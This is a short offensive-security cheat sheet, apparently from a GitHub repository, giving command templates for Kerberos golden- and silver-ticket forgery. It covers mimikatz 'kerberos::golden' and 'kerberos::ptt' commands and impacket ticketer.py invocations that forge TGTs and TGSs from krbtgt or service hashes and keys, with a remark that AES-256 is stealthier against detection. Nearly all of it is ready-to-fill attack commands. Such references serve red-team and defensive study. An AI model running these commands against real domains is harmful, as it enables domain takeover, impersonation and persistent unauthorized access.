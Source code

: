 ### Inject TGS with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

## golden_ticket

### to generate the TGT with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>`

### to generate the TGT with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>`

### to generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>`

### inject TGT with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

---
# ticketer.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## silver_ticket

### to generate the TGS with NTLM
- `python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### to generate the TGS with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

## golden_ticket

### to generate the TGT with NTLM
- `python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`
